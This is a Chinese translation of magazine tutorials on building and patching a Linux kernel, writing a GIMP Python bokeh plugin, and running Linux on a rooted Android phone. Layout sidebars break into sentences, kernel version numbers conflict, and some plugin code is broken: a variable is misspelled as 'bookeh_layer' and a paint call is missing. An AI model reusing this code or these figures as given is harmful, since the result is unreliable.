已启用的选项由常见的复选框标记；你还会看到许多带圆圈的框。这表示选中的选项将被构建为模块——也就是说，不包含在主内核文件本身，而是作为单独的文件，可按需加载。如果你把所需的所有功能都直接编译进内核，生成的文件会非常庞大，甚至可能无法被引导加载程序使用。这意味着，最好的做法是只把关键功能和驱动程序编译进内核镜像，而将其余需要的内容（例如可以在系统启动后启用的功能）作为模块启用。

因此，点击复选框可以在三种状态之间切换：启用（空白）、内建到内核（勾选）或构建为模块（圆圈）。不过请注意，有些功能无法构建为模块，只能选择启用或不启用。


你可能想知道为什么有些选项已经启用，有些没有。是谁做了这些决定？嗯，如果你查看运行 `make xconfig` 的终端窗口，会看到这样一行：

```
# using defaults found in /boot/config-3.8.0-21-generic
```

你当前运行的内核在 `/boot` 目录下有一个关联的配置文件，`xconfig`/`gconfig`/`menuconfig` 工具会找到它，并将其作为新配置的基础。这很棒，因为这意味着你的新内核将拥有与现有内核相似的功能集——从而降低遭遇惊人启动失败的概率。当你在配置程序中点击“保存”按钮时，它会将选项存储到 `.config` 文件中，此后任何对 `xconfig`/`gconfig` 等的使用都将从这个 `.config` 文件开始。

## 启用额外功能

现在，在本教程开头我们讨论了为提升性能和使用实验性功能而定制内核。对于前者，可以看看“处理器类型和特性”类别。目前你运行的内核很可能是针对奔腾 Pro 或类似老处理器调优的——这本身并不是坏事，因为这意味着内核可以在多种芯片上运行，但你可能想选择更新的型号。例如，如果你的处理器是 Core i3/i5/i7，你会希望选择 Core 2/更新型 Xeon 选项。不要指望系统速度会有巨大提升，但至少……

## 内核的一天

如果你对 Linux 世界还比较陌生，或者你从未花太多时间了解操作系统的技术基础，你可能知道内核是系统安装的核心部分，负责所有重要工作——但这项工作具体是什么呢？为了清楚起见，让我们更详细地看看内核的主要职责：

- 运行程序 内核实际上是所有正在运行的程序的“老板”。你不能让一个程序独占整个处理器；如果那个程序恰好死锁，你也不希望其他所有内容都无法访问。因此，内核为程序分配各自的 CPU 时间片，确保它们和谐共处，并且任何程序都不能接管整台机器。内核还可以终止正在运行的程序并释放其资源。
- 访问硬件 很少有最终用户程序直接与硬件交互。例如，你不会希望两个程序同时访问同一个 USB 端口，从而导致各种可怕的冲突。因此，内核负责与硬件打交道，提供访问特定设备的驱动程序，并提供抽象层，使高级软件不必知道每个设备的确切细节。
- 管理内存 想象一下，如果每个程序都能自由使用你的 RAM。程序之间不知道谁拥有什么，最终会互相踩踏；然后，你打开的字处理文档可能突然充满声音数据。内核将 RAM 块分配给程序，并确保它们彼此隔离，因此如果一个程序出现异常，它的混乱不会影响另一个程序的 RAM 区域。

至少你的内核将针对最近的英特尔芯片进行特定优化。

继续来看内核的实验性功能，当你在类别中浏览时，你会看到一些选项旁边标记着“Experimental”或“Dangerous”。可以这么说，这些都不是你可以依赖的功能，因为它们存在 bug，并且需要时间来成熟。但如果你迫切想尝试某个在某处读到的前沿功能，这里就是查找的地方。

## 构建时间到了！

一旦你按自己的喜好微调了内核功能，保存并退出配置工具。理论上，你现在可以用一个 `make` 命令构建新内核，但如果你的处理器是多核的，这样做并不高效。在这种情况下，最好使用 `-j` 后跟 CPU 中核心数量。这会告诉 `make` 并行执行多个编译任务，这将显著减少内核的总构建时间。所以，如果你有一个双核 CPU，请使用：

```
make -j 2
```

这个过程需要多长时间取决于你在内核中启用了多少功能以及你计算机的硬件规格。例如，如果你在最新的 Core i7 处理器上构建一个相当精简的内核，你应该在大约 15 分钟内完成。如果你有一台较旧的计算机并且正在构建一个包含所有东西的内核，包括厨房水槽，它将需要几个小时。

无论如何，当过程完成后，是时候将内核和模块安装到它们正确的位置了：

```
make modules_install
```

```
make install
```

非常重要的一点是必须按此特定顺序输入这些命令。第一个命令将内核模块放置到 `/lib/modules/<kernel version>/` 中，在我们的例子中是 `/lib/modules/3.3.7/`。第二个命令将内核及其支持文件复制到 `/boot` 目录。

这些是：

- `vmlinuz-3.17.1` 压缩的内核映像。这是 Grub（引导加载程序）加载并执行的。
- `System.map-3.17.1` 符号名称（例如，函数名称）及其在内存中的地址的表。它对于内核崩溃的调试很有用。
- `Initrd-3.17.1` 一个初始 RAM 磁盘——一个带有启动系统所需的基本驱动程序和实用程序的小型根文件系统（并从其他地方挂载真正的根文件系统）。
- `Config-3.17.1` 当你运行 `make xconfig` 或其变体时生成的 `.config` 文件的副本。

值得庆幸的是，`make install` 过程也会更新 Grub 引导加载程序。如果你查看 `/boot/grub/grub.cfg`，你会看到为你刚刚构建和安装的内核版本创建的新条目。

现在你准备好进行最令人兴奋的一步了：重新启动进入你闪亮的新个性化内核。只需从 Grub 菜单中选择它，祈祷一下，然后看看会发生什么。一切顺利的话，你的系统将正常启动，你可以探索你启用的新功能——但如果不行，也不用担心。只需再次重新启动并选择你的旧内核（它很可能在“高级选项”子菜单下）。Linux 在一台机器上支持多个内核版本方面非常出色，因此你的系统不太可能变得完全无法启动。

如果你需要对内核进行进一步更改，再次运行 `make xconfig`，然后按照上述流程进行。你也可以通过输入 `make clean` 来删除编译文件，但这仍然会保留 `.config` 和一些其他文件。要将内核源代码重置为原始的、pristine 形式，请使用：

```
make mrproper
```

输入此命令后，所有临时文件和设置都将被删除，就好像你解压了一个全新的内核 tarball 一样。

## 给我打补丁

使用网上众多可用的补丁来为你的内核增添额外功能是一种很好的方法。（请参阅对面的“值得关注的补丁”，以了解更多关于此的信息。）我们将使用一个旧内核（3.10.9）以便于操作，并应用 `patch-3.10.9-r15.patch.gz` 文件中提供的实时补丁。我们已将此文件下载到我们的 `/usr/src/linux-3.10.9` 目录中，正如名称所示，它是一个用 gzip 压缩的单个 `.patch` 文件。

如果你查看文件内部（例如，`zless patch-3.10.9-r15.patch.gz`），你会看到一堆以加号（`+`）和减号（`-`）开头的行。简单来说，加号行是补丁添加到内核源代码中的内容；减号行是被移除的内容。在每个以“diff”标记的区块之间，你会看到“`+++`”和“`---`”行——这些显示了要修改的文件。

你可以立即对源代码进行补丁，但最好先进行一次试运行，以确保不会搞乱任何东西。幸运的是，`patch` 命令有一个选项可以做到这一点：

```
zcat patch-3.10.9-r15.patch.gz | patch -p1 --dry-run
```

在这里，我们将压缩的补丁提取到 stdout（终端），然后将其内容通过管道传输到 `patch` 实用程序。在这里使用 `-p1` 指定我们希望在当前目录中进行补丁，而 `--dry-run` 防止任何文件更改发生——它只是显示会发生什么。你应该会看到很多类似这样的行：

`patching file arch/sh/mm/fault.c`

如果一切顺利，没有任何小问题出现，请重复该命令并去掉 `--dry-run`。如果你使用的是以 `.bz2` 结尾的补丁，请在命令开头使用 `bzcat`，对于 XZ 文件则输入 `xzcat`。

一旦你的内核被补丁更新，就回到内核配置工具以启用新功能（如果


`www.kernel.org` 上的大黄按钮始终指向最新的稳定源代码。

## 技巧


`Xconfig` 提供了一个基于 Qt 的图形化内核配置界面……

……但如果你通过安全外壳（SSH）登录到没有 X Window 系统的服务器，请改用基于 Ncurses 的 `menuconfig`。

……（如有必要）然后按照前面提到的步骤重新编译。接着，带着满脸笑容去参加下一次 LUG 会议，告诉大家你正在使用一个超级棒的手调内核，并应用了来自互联网的最新尖端补丁。说不定有人会请你喝杯啤酒……

### 创建你自己的内核补丁

如果你想尝试成为一名内核黑客，首先要做的就是在内核中添加一些有用的东西。这完全超出了本指南的范围，但为了与世界分享你的成果，你还需要创建一个 `.patch` 文件，用于显示原始内核与你增强版内核之间的差异。为此，你需要两个目录：一个存放原始纯净内核源码，另一个存放你的修改。所以在 `/usr/src` 下你可以有 `linux-3.17.1` 和 `linux-3.17.1-me`，后者是你修改过代码的地方。要生成补丁文件，请输入：


```
diff -uprN linux-3.17.1/ linux-3.17.1-me/ > myfile.patch
```

现在你可以压缩补丁文件并分发给大家，他们可以按照正文中描述的说明来应用补丁。如果你有很酷的东西要展示，并且想发送给内核开发者，请先阅读内核源码中的 `Documentation/SubmittingPatches`——里面有很多有用的建议。

### 值得关注的补丁集

Linus Torvalds 对 Linux 内核的收录内容拥有最终决定权，在过去的几十年里，他证明了自己是一位优秀的项目管理者（尽管有时话比较多）。因此，内核并没有因为开发者分歧而产生什么重大分叉，但内核源码确实存在不同的分支。这些分支包含实验性特性，或者让内核朝着与 Torvalds 等人意图不同的方向发展，其中最著名的包括：

- pf-kernel (`http://pf.natalenko.name`) 一系列“未合并到主线（官方内核源码树）的精彩特性”。其中包括备选的 I/O 调度器、用于改进休眠功能的 TuxOnIce，以及用于提升响应速度的 `-ck` 补丁。

- TinyLinux (`www.tinylab.org/project/tinylinux`) 该补丁集专为资源受限的嵌入式系统设计，力求减少内核的磁盘和内存占用。

- RT Patch (`https://rt.wiki.kernel.org`) 标准 Linux 内核在实时操作方面表现不佳，因为在大多数服务器和桌面上，系统负载较高时某个任务多花 0.01 秒完成并无大碍。但如果你是音频专业人士，或者用 Linux 控制机器，你就会希望内核能保证在精确的截止时间内完成某些操作（以保持一切同步），而这个补丁就提供了这种能力。

请注意，许多补丁集需要一段时间才能与最新的内核树同步，因此你可能找不到与你正在构建的内核完全匹配的补丁。


这就是 RT Patch 的样子——高亮部分显示的是如何删除和添加代码行。

## Python：编写一个 Gimp 插件

使用 Python 为这款广受欢迎的开源图像处理应用添加一些额外功能，甚至不需要提到 Gimp 掩码。

抛开各种双关语不谈，Gimp 允许你通过编写自己的插件来扩展其功能。如果你想追求硬核，可以用 C 语言基于 `libgimp` 库编写插件，但这可能会让人望而却步或恼火。幸运的是，`libgimp` 存在较友好的 API，因此你可以改用 Gimp 自带的 Script-Fu 语言（基于 Scheme）、Tcl、Perl 或 Python 来编写你梦想中的插件。本教程将介绍最后一种，它可能是所有这些语言中最容易上手的，所以即使你没有编程经验，也能从中有所收获。

### 开始

在 Linux 上，大多数软件包都会确保所有必需的 Python 组件随 Gimp 一起安装；而 Windows 和 Mac 的朋友们，从 2.8 版本开始这些组件已经作为标准配置包含了。你可以通过启动 Gimp 并检查“滤镜”菜单中是否有 Python-Fu 条目来确认一切就绪。如果没有，你需要检查安装。如果有，那就继续点击它。如果一切顺利，应该会打开一个期待输入的控制台窗口，带有一个渴望你输入的提示符（`>>>`）。Gimp 能做的所有事情都注册在一个叫做“过程数据库（PDB）”的东西中。控制台窗口中的“浏览”按钮可以让你看到所有这些过程、它们操作的对象以及它们输出的结果。我们可以通过 Python 中的 `pdb` 对象访问其中的每一个。作为温和的入门，我们来看看如何用当前选中的背景色创建一个简单的空白图像。这需要设置一个图像，向其中添加图层，然后显示图像。

```
image = pdb.gimp_image_new(320,200,RGB)
layer = pdb.gimp_layer_new(image,320,200,'RGB','Layer0',100,NORMAL_MODE)
pdb.gimp_image_insert_layer(image,layer,None,0)
pdb.gimp_display_new(image)
```

因此我们使用了四个过程：`gimp_image_new()`，它需要指定宽度、高度和图像类型（RGB、GRAY 或 INDEXED）的参数；`gimp_layer_new()`，它作用于先前定义的图像，需要宽度、高度和类型数据，以及名称、不透明度和合并模式；`gimp_image_insert_layer()` 用于将图层实际添加到图像中；`gimp_display_new()` 用于显示图像。你必须在图像中添加图层后才能进行任何有意义操作，因为没有图层的图像是一个相当虚无的对象。你可以在“过程浏览器”中查找这些过程的更多信息——尝试在搜索框中输入 `gimp-layer-new`，你会看到所有可用的合并模式。注意在 Python 中，过程名称中的连字符被替换为下划线，因为连字符保留用于减法。不过，如果你在搜索框中使用下划线，它也能理解。

### 画线

一切都很好，但我们实际上如何绘制东西呢？让我们从一条简单的线开始。首先选择一支画笔和一个在背景上好看的前景色。我在控制台中输入以下内容：

```
pdb.gimp_pencil(layer,4,[80,100,240,100])
```

很好，一条完美的居中线条，就像你用铅笔画的一样。`gimp_pencil()` 的第一个参数只是你要绘制的图层。指定点的语法有点奇怪：首先我们指定坐标的数量，它是点数的两倍，因为每个点都有 x 和 y 分量；然后我们提供一个 `[x1, y1, ..., xn, yn]` 形式的列表。因此我们的示例绘制了一条从 `(80,100)` 到 `(240,100)` 的线。用于选择颜色、调整画笔等的程序也在 PDB 中：

```
pdb.gimp_context_set_brush('Cell 01')
pdb.gimp_context_set_foreground('#00a000')
```


你可以随心所欲地定制线条和色块，但坦率地说，这样做不太可能产生什么特别有用的东西。

## 技巧


```
pdb.gimp_context_set_brush_size(128)
pdb.gimp_context_set_default_colors()
(160,100)
```

如果你有名为‘Cell 01’的画笔可用，那么上述代码会在画布中央绘制一个绿色斑点。如果没有，你会收到错误消息。你可以通过调用 `pdb.gimp_brushes_get_list()` 获取所有可用画笔的列表。与硬边铅笔相比，画笔工具更适合这些花哨的画笔，而且如果你在过程浏览器中查看 `gimp_paintbrush` 函数，你会发现还可以配置渐变和淡出效果。为简单起见，我们在这里只使用了默认/当前设置。在光盘上，你会找到一个文件 `lines/blob.py`，它会注册一个功能完整的 Gimp 插件，并附带一些微调。

在接下来的教程中，我们将描述一个稍微高级一点的插件，用于在你自己的照片中创建散景（bokeh）效果。“Bokeh”源自一个日语单词，意为模糊或薄雾，在摄影中指的是由景深之外的光源引起的失焦效果。它通常会在图像的高光部分产生颜色均匀、模糊的圆盘状伪影，让人联想到镜头光晕。每种情况下得到的效果都是镜头和光圈的共同特性——根据设计的不同，还可能会看到多边形和甜甜圈形状的散景效果。在本次练习中，我们只使用圆形效果。

我们的插件将让用户通过图像上的路径来精确定位光源，我们假设图像是单层的。他们将指定圆盘直径、模糊半径以及色相和饱和度调整。结果将产生两个新图层：一个包含“散景圆盘”的透明顶层，以及一个

> “我们的插件创建一个包含‘散景圆盘’的图层，另一个图层是图像的模糊副本”

包含原始图像模糊副本的图层。原始图层保持在这两个图层之下不变。通过调整这两个新图层的不透明度，可以获得更令人满意的结果。为了获得更真实的散景效果，图像的一部分应保持聚焦且没有圆盘，因此擦除模糊图层的某些部分可能效果不错。只要用户不重命名图层，那么进一步应用我们的

- 应用我们的散景插件在高光部分产生了令人愉悦的散景效果。

插件不会给他们增加更多图层。这意味着可以在不同参数下多次应用该函数，并且所有光晕效果的圆盘仍保持在同一个图层上。建议在第一次迭代后将模糊参数调为零，否则用户只会对已经模糊的图层再次进行模糊。

初始化几个必备变量后，我们开始制作两个新图层。对于模糊图层，我们复制原始图像并添加透明度通道。散景图层的创建方式与之前的示例非常相似。


```
blur_layer = pdb.gimp_layer_copy(timg, timg[0],1)
pdb.gimp_image_insert_layer(timg, blur_layer, None, 0)
bokeh_layer = pdb.gimp_layer_new(timg, width, height, RGBA_IMAGE, "bokeh", 100, NORMAL_MODE)
pdb.gimp_image_insert_layer(timg, bokeh_layer, None, 0)
```

我们脚本接下来的任务是提取用户所选路径中的点列表。这有点不简单，因为一般的路径可能是一个非常复杂的对象，带有曲线、方向变化等种种情况。细节见下面的方框，但别担心——你只需要理解主 `for` 循环将按绘制顺序沿着路径前进，将每个组成点的坐标提取为两个变量`x`和`y`。

提取点信息后，下一个挑战是获取该处图像的局部颜色。执行此操作的 PDB 函数称为`gimp_image_pick_color()`。它有许多选项，类似于“颜色选择器”工具的对话框。我们的特定调用让程序在`x,y`点周围 10 像素半径内采样，并选择平均颜色。这比只选择该单个像素的颜色更可取，因为单个像素的颜色可能不代表其周围环境。

### 拿个油漆桶来

要在散景图层上绘制颜色适当的圆盘，我们一开始——有点反直觉——先绘制一个黑色圆盘。为了不依赖所有用户都有一致的画笔集，我们不使用画笔工具，而是通过桶式填充一个圆形选区来制作圆形。选区是这样实现的：

```
pdb.gimp_image_select_ellipse(timg, CHANNEL_OP_REPLACE, x - radius, y - radius, diameter, diameter)
```

有一些常量引用了各种 Gimp 特有的


> 快速提示

> 想要更多、更多自制插件，请查看 Gimp 插件注册表：http://registry.gimp.org

这些就是我们的圆盘。如果你感觉很疯狂，可以添加混合或渐变，但统一颜色效果就很好。

### 路径、矢量、描边、点、图像和可绘制对象

路径存储在称为矢量的对象中。更具体地说，该对象包含一系列描边，每条描边描述路径的一部分。我们假设一条没有曲线的简单路径，因此只有一条描边，从中获取我们渴望的点。在代码中，我们将这条描边称为`gpoints`，它实际上是一个元组，其第三个条目是点列表。由于 Python 列表从 0 开始，因此通过`gpoints[2]`访问点列表。该列表的格式为`[x0,y0,x0,y0,x1,y1,x1,y1...]`。每个点被计算了两次，因为在其他设置中，列表需要保存曲率信息。为了避免重复，我们使用`range()`函数的`step`参数，每次迭代递增 4，这样我们在位置 0、4、8 获得`xs`，在位置 1、5、9 获得`ys`。点列表的长度由`gpoints`的第二个条目提供，即`for i in range(0,gpoints[1],4):`

你会看到对变量`timg`和`tdraw`的多次引用。它们表示调用我们函数时的活动图像和图层（更准确地说是图像和可绘制对象）。可以想象，它们是非常方便的东西，因为很多工具至少需要一个图像和一个图层才能工作。实际上，它们非常方便，以至于当我们在 Gimp 中注册脚本时，我们不需要提及它们——人们会假定你想将它们传递给函数。图层和通道共同构成了称为可绘制对象的类——这种抽象在这里是合理的，因为有很多操作同样适用于两者。

GIMP 模式及其他奥妙。它们很容易通过全大写的形式辨认出来。这里的第二个参数代表数字 2，同时也表示当前选区应被指定的椭圆选区替换。

尺寸的指定方式是给出包围椭圆的外框左上角以及该外框的宽度。我们将这个选区羽化两个像素，以缓和边缘，然后将前景色设置为黑色。接着，我们在“背后”模式下用桶填充这个新选区，以免干扰图层上的其他圆盘：

```
pdb.gimp_selection_feather(timg, 2)
pdb.gimp_context_set_foreground('#000000')
pdb.gimp_edit_bucket_fill_full(bookeh_layer, 0,BEHIND_MODE,100,0,False,True,0,0)
```

现在说明使用黑色的原因：我们将以加法颜色模式绘制圆盘。这意味着重叠的圆盘区域会变得更亮，这有点类似于摄影中的效果。问题是，加法颜色对透明度没什么实际作用，所以我们先把它涂成黑色，然后我们新增的加法圆盘会覆盖掉所有黑色。

```
pdb.gimp_context_set_foreground(color)
pdb.gimp_edit_bucket_fill_full(bookeh_layer, 0,ADDITION_MODE,100,0,False,True,0,0)
```

当我们以这种方式绘制完所有圆盘后，如果请求了高斯模糊，我们就对复制出的图层进行高斯模糊。我们说过，图像的一部分应保持清晰；你可能希望以后处理这个图层，使感兴趣区域的透明度更低。在进行填充之前，我们取消所有选区，否则我们只会模糊最近绘制的圆盘。

```
if blur > 0:
pdb.gimp_plug_in_gauss_iir(timg, blur_layer, blur, blur)
```

## 轻柔地，轻柔地

最后，我们应用色相和亮度调整，并将 bokeh 图层设置为“柔光”模式，这样底层图层会在圆盘下方被照亮。为了防止有任何黑色在桶填充后残留，我们使用 Color-To-Alpha 插件将其去除。

```
pdb.gimp_hue_saturation(bookeh_layer, 0, 0, lightness, saturation)
pdb.gimp_layer_set_mode(bookeh_layer, SOFTLIGHT_MODE)
pdb.plug_in_colortoalpha(timg, bookeh_layer, '#000000')
```

这基本上概括了我们脚本的核心。你从随附代码中可以看到，还需要处理一些整理工作，即将整个


操作序列合并为单个可撤销操作，并恢复脚本所更改的任何工具设置。总是收拾好自己的东西、物归原位总是好的。在`register()`函数中，我们将其`menupath`设置为`"<Image>/Filters/My Filters/PyBookeh..."`，这样如果注册成功，你将在“滤镜”菜单中看到一个“我的滤镜”菜单。你可以把以后想出的任何其他脚本添加到此菜单，以免使本就拥挤的“滤镜”菜单更加杂乱。示例图片显示了几个`PyBookeh`应用的结果。

应用滤镜后，画面会变得有些模糊。更改图层的不透明度可以恢复一些细节。

> “最后，将操作合并为单个可撤销操作，并重置任何已更改的工具设置。”

批评者可能会对这个脚本的实用性提出多余的嘲讽，的确，完全可以用手工完成它所做的一切，甚至可能做得更好。至少在某种程度上，这对任何 GIMP 脚本来说都是如此。但手工操作将极其费力且容易出错——你必须记下每个圆盘中心的坐标和颜色，而且如果想保持颜色叠加的效果，你必须极其灵巧地进行圆盘叠加。

## 注册你的插件

为了让你的插件出现在 GIMP 菜单中，有必要将其定义为一个 Python 函数，然后使用`register()`函数。最整洁的方式是将所有代码保存在一个布局合理的 Python 脚本中。这种脚本的一般形式是：

```
#!/usr/bin/env python
from gimpfu import *
def myplugin(params):
# code goes here
register(
proc_name, e.g. "python_fu_linesplodge"
blurb, "# Draws a line and a splodge"
help, author, copyright, date,
menupath, imagetypes,

params, results,
function() # "myplugin"
main)
```

指定你插件的输入：你可以在此使用特殊的 Python-Fu 类型，如`PF_COLOR`和`PF_SPINNER`，以获得用于输入这些内容的友好界面。`results`列表描述你的插件输出（如果有）。在我们的例子中，`(PF_IMAGE, image, "LSImage")`就足够了。最后，`function`只是你的函数在代码中出现的 Python 名称。


`proc_name` 参数指定你的插件在 PDB 中的名称；实际上会自动添加前缀 `python_fu_`，这样所有 Python 插件在分类中都有自己的分支。`menupath` 参数指定你注册的插件类型，以及你的插件将出现在 GIMP 菜单中的位置：在我们的例子中，使用 `"<Images>/Filters/Artistic/LineSplodge..."` 就足够了。`imagetypes` 指定插件处理的图像类型，例如 `"RGB"`，如果插件不操作任何图像（例如我们的示例），则可以简单地使用 `"*"`。`params` 列表

为了确保 GIMP 在下一次加载时找到并注册你的插件，请将此文件保存为（比如说）`myplugin.py`，并放到插件文件夹中：Linux 下为 `~/.gimp-2.8/plugins`（确保使用 `chmod +x myplugin.py` 使其可执行），Windows 用户则放到 `%USERPROFILE%\.gimp-2.8\plug-ins`，并根据实际情况替换版本号。

# Android：手机上的 Linux

了解如何通过在你的 Android 智能手机上运行完整的 Linux 发行版来释放其计算能力。


这些脚本仅为 Linux 在设备上运行准备环境。项目托管的 Linux 映像文件只是项目开发者打包的定制 Linux 环境，以适应不同的使用场景和设备。

重要的一点是，该项目提供的所有 Linux 发行版都由 ARM 软件包组成，并且它们不在虚拟机中运行，而是直接在你 Android 智能手机的真实硬件上运行。这就是为什么你能在配置最低的设备上运行它。我们曾在一台配备单核 1GHz 处理器和约 400MB RAM 的三星手机上成功运行了 Arch Linux 和 Enlightenment 桌面环境。

在撰写本文时，该项目为 Arch Linux、Debian Lenny、Debian Testing、Fedora 20、Fedora 19、Kali Linux、Ubuntu 13.10、Ubuntu 13.04 和 Ubuntu 12.04 LTS 提供了稳定版映像。此外，还有一些不适用于生产环境的 Alpha 版映像，用于其他发行版，包括 Slackware、Bodhi、OpenSUSE 和 Ubuntu 14.04。每个发行版都提供多个版本。

`Core` 映像体积最小，包含运行发行版所需的最少软件包。这对于创建自己的映像非常理想，并包含 Openbox 窗口管理器。接下来是 `Small` 映像，随附 LXDE 桌面及其整套程序。最后是 `Large` 映像，包含 KDE Plasma 桌面、LibreOffice 和 Gimp。

一些发行版还提供额外的映像。Arch Linux 提供带 Enlightenment 桌面的映像，Fedora 则提供带 MATE 桌面的映像。你可以获取使用 `ext2` 或 `ext4` 文件系统的映像。`ext4` 映像与 Android 4.3 兼容，而 `ext2` 映像与更早版本的 Android 兼容。

你的 Android 手机已经在 Linux 的加持下运行，但你可以通过在与现有移动操作系统并行的方式下运行一个完整的 Linux 发行版，进一步增强它，并更好地利用其多核处理器和海量内存。

我们可以想到很多理由，让你希望口袋里有一台真正的 Linux PC。例如，你可以用它来驱动一个 LAMP 服务器，运行 Web 应用并提供网页服务。如果你是网络管理员，你可以安装自己喜爱的 Linux 工具，将智能手机变成便携式网络故障排查或渗透测试设备。

LinuxOnAndroid 项目提供了一个 Android 应用和几个 shell 脚本，并托管了一系列 Linux 发行版，你可以使用该应用启动它们。脚本会快速将 Linux 映像挂载到 Android 文件系统中，并将 SD 卡挂载到 Linux 文件系统中。然后，它们调用 `chroot` 将根目录更改为已挂载的 Linux 的根目录，并打开一个 shell 供你与已挂载的 Linux 系统交互。这些脚本还设置了 SSH 以提供安全的远程访问，以及 VNC 使你能访问该 Linux 系统的图形桌面。

### 快速提示

LinuxOnAndroid 项目完全开源。你可以从项目网站获取该应用和脚本的源代码。

## 准备设备

首先从 Google Play 商店获取 Complete Linux Installer 应用。或者，你可以访问项目网站（http://linuxonandroid.org）下载该 Android 应用的开源版本（但需要进入“设置 > 安全”菜单，并开启“未知来源”以允许安装非 Play 商店应用）。

该应用要求 Android 设备已 root。（概述请参阅第 71 页的“Android 手机 Root 通用指南”。）Root Android 设备所需的具体步骤因型号而异 [有关 Root 设备的更多信息，请参阅教程，第 80 页 LXF179]。

除了 LinuxOnAndroid 项目提供的应用外，你还需要一个 VNC 查看器才能使用图形桌面。

## Android 手机 Root 通用指南

通俗地说，Root 设备可以让你访问设备厂商不希望你去修改的操作系统部分。换句话说，Root 后的手机能让你获得更高的权限或管理员控制权，直达 Android 的 Linux 子系统最底层。

要实现这一点，你需要更换设备中的一些核心组件，首先从引导加载程序（bootloader）开始。手机上的默认引导加载程序是锁定的，只会启动它信任的系统（这与桌面上的安全启动功能惊人地相似）。要获得 root 权限，你需要解锁引导加载程序，替换恢复系统，并安装一个超级用户应用。

首先，使用你的发行版的包管理器安装 `android-tools-fastboot` 工具。这让你能与设备更深层次交互。然后，你需要将设备重启进入 Fastboot 模式。在网上搜索适用于你设备的按键组合来进入该模式。解锁引导加载程序的过程也因设备制造商而异。对于 Google 设备（如 Nexus 4），你可以通过简单的 `fastboot oem unlock` 命令完成。对于其他设备，你需要向制造商申请密钥。

然后，从流行的 ClockWorkMod 项目网站 www.clockworkmod.com/rommanager 获取适合你手机的替代恢复系统映像。一旦你有了适用于你设备的 `IMG` 文件，就可以使用 `fastboot flash recovery <image name>` 命令刷入它。最后，获取一个用于管理超级用户权限的应用，例如 CWM 项目开发的 Superuser 或流行的 SuperSU 应用。


> 你可以使用图形化 Heimdall 应用轻松 Root 三星设备。

该项目建议使用流行的 Android VNC Viewer 应用。你还需要另一个应用来访问 Android 内置命令行，但如果你已经 Root 了设备，你应该已经有了。无论如何，该项目建议使用 Android Terminal Emulator 应用。

准备好这些后，你就可以启动 `CompleteLinuxInstaller` 应用。点击屏幕左上角的项目图标即可打开导航菜单，其中包含几个项目。前两个最重要：“安装指南（Install Guides）”将引导你完成设置和安装各种受支持的 Linux 发行版所需的步骤，而“启动（Launch）”项是集成启动器，可用于启动已配置的发行版。其他项目会显示各种信息和提示来帮助你。


> `CompleteLinuxInstaller` 应用让添加发行版成为一个简单直接、一步步完成的过程。

要开始设置发行版，请启动 `CompleteLinuxInstaller` 应用，打开导航菜单并点击“安装指南”项。这将显示你可以在设备上运行的发行版列表。一旦你决定要运行哪个发行版，点击其条目以获取进一步说明。在本教程中，我们假设你想设置 Ubuntu 13.10。但请注意，设置发行版的过程对所有发行版来说都大同小异。

## 设置发行版

选择发行版后，应用会显示详细的说明，分为四页。在第 1 页，应用会列出设备运行 Linux 发行版必须满足的基本要求。最重要的步骤是确保你已启用调试支持。为此，请前往“设置 > 应用程序 > 开发”，并确保“USB 调试”设置已打开。

在第二页，你会看到用于下载所选发行版映像的链接。点击“下载映像”按钮会弹出一个窗口，其中包含另外三个按钮，用于下载前面解释过的三种受支持映像类型之一——`Large`、`Small` 或 `Core`。该页面还提到了所提供映像的详细信息，例如你将下载的压缩映像的大小，以及解压后映像在 SD 卡上占用的空间。

点击你想要下载的映像会弹出另一个窗口，其中包含按钮，你可以从 Sourceforge 镜像或通过 torrent 下载映像。如果你选择 torrent 选项，应用会下载一个 torrent 文件，然后你需要将其提供给 torrent 客户端，以下载所选发行版的实际映像。

### 快速提示


你可以从应用内下载发行版映像，也可以从项目网站获取并传输到手机上。

Android 设备) 可能需要一些时间来解压。但是，如果你手动将图像移动到设备上，最好将它们放在一个文件夹内。例如，如果你正在下载 Ubuntu 13.10 发行版的镜像，最好在你的 SD 卡上创建一个名为 Ubuntu 的文件夹，并在其中解压。

然后继续阅读第 3 页，其中会指导你如何提取下载的文件。页面的其余部分讲述了如何启动提取的镜像。启动后，你将被带到一个终端窗口。第 4 页列出了如何通过 VNC 客户端连接到此正在运行的 Linux 安装的说明。请记住记下此页上列出的密码，因为你需要它来连接到发行版内部运行的 VNC 服务器。

点击按钮启动发行版。点击按钮启动发行版。这将启动终端应用并授予其超级用户权限。在虚拟键盘上按 Enter 键以启动发行版。

由于这是你第一次启动发行版，系统会要求你为默认用户指定一个密码（以 Ubuntu 发行版为例，该用户名为 ubuntu）。请注意，这是指默认用户账户的密码，而不是登录 VNC 会话所需的密码。

然后系统会询问你是否希望发行版启动 VNC 服务器（用于查看图形桌面）和 SSH 服务器（用于通过安全连接远程访问发行版）。我们建议你同时启动两者，以充分利用在 Android 设备上运行 Linux 发行版的好处。

接下来，系统会要求你输入 VNC 会话的屏幕分辨率。虽然你可以将其设置为任意大小，但为了获得最佳体验，你应将其设置为与设备相同的分辨率。不过请记住，当你调出虚拟键盘时，它会遮挡桌面的一部分。如果你在一台大屏幕设备上运行，可以按照项目 wiki 上的指南调整屏幕大小以适应软键。

这就是它所需的所有配置。应用随后会提示你将设置保存为默认设置。安全地这样做可以避免每次启动发行版时都回答相同的问题。我们稍后在教程中会向你展示如何更改这些设置。现在你只需将设置保存为默认设置，让应用启动你的发行版。

## 启动发行版

你现在已准备好启动新的发行版。通过点击应用图标或从左向右滑动并点击启动项调出导航菜单。这将打开应用的启动器，它负责启动发行版。使用页面上的下拉菜单选择你希望启动的发行版。

如果出现错误提示所选发行版的镜像不存在，则表示应用无法找到该发行版的提取镜像文件。这可能是因为你尚未提取下载的文件，或者将其保存在非标准位置。在这种情况下，你必须手动指向发行版的 IMG 文件。在启动屏幕右上角点击设置，这会打开一个下拉菜单。点击添加以打开为你的发行版添加条目的页面。在提供的空间中输入发行版的名称，然后点击带三个点的框以浏览 Android 设备上的文件系统并指向发行版的 IMG 文件。完成后点击保存更改。

此来自你发行版的自定义条目现在将列在启动页面的下拉菜单中。当你现在选择该条目时，应用会向你显示一个

当它完成启动你的发行版后，你会看到一条包含通过 VNC 连接到此 Linux 发行版所需相关设置的提示，然后是标准的 Linux root 提示符。

如果你精通 Linux 命令行界面，现在就可以使用此 shell 与发行版交互，就像任何桌面发行版一样。

出于安全目的，你应该做的第一件事之一是为 root 用户设置新密码。输入

```
passwd
```

